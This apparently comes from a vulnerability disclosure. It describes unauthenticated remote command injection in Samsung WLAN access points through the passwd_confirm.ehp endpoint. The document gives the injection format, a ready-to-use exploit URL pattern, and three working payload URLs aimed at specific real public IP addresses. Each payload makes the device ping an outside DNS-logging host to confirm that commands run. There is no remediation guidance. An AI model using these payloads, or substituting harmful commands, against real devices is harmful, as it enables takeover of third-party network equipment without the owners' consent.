


Samsung WLAN AP, which has a command execution vulnerability, injects commands and executes them via remote without logging in.

**passwd_confirm.ehp** exists for remote command execution.

For example, execute the `ping` command through the `shell`.

Command format:`&command1=shell:ping+dnslog`

Execute commands directly through the browser without logging into the device.

**xxx/passwd_confirm.ehp?path=DB%20Restore&command1=shell:ping+dnslog**

The following examples verify the existence of the vulnerability：

`http://112.170.189.193/passwd_confirm.ehp?path=DB%20Restore&command1=shell:ping+e2476a71.dns.1433.eu.org`

`http://220.92.38.104/passwd_confirm.ehp?path=DB%20Restore&command1=shell:ping+dbcbca84.dns.1433.eu.org`

`http://112.170.189.193/passwd_confirm.ehp?path=DB%20Restore&command1=shell:ping+ff9949fe.dns.1433.eu.org`

